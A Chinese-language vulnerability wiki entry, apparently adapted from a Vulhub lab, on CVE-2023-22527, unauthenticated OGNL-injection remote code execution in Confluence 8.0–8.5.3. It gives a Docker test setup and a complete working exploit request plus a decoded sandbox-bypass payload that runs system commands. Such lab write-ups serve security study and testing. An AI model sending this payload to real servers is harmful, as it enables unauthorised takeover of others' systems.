

# Confluence Server/Data Center 22527模板到OGNL执行

## 条目说明

- 对象与具体问题：Confluence Server/Data Center；22527模板到OGNL执行
- 版本、配置及部署条件：8.0–8.5.3声明；模板暴露及依赖
- 认证与权限前提：未认证声明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 末尾所谓解码payload把findValue的字符串参数换成setHeader表达式结果，不等同原#parameters.x的数据流
- 有原厂及ProjectDiscovery研究来源，缺具体安全版本与影响分支
- 响应头命令验证依赖FreeMarker执行工具；3396仅安装参考不合并漏洞

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

参考链接：

- [https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html](https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html)
- [https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/](https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/)

### 环境搭建

Vulhub 执行如下命令启动一个Confluence Server 8.5.3：

```
docker compose up -d
```

环境启动后，访问`http://your-vps-ip:8090`即可进入安装向导。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的试用版许可证，申请方法可参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)。

在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。




### 漏洞复现

直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: your-vps-ip:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

> 请求长度说明：原资料 Content-Length 为 285；静态长度已移除，应由客户端根据最终请求体的字节数生成。

在Confluence 7.18.0版本后，官方开发者为其引入了`isSafeExpression`函数来限制执行恶意OGNL表达式。安全研究者[Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/)分享了一种利用velocity模板中的`#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`来获取无沙箱的OGNL对象并执行任意语句的绕过方法，完整并解码后的Payload如下：

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
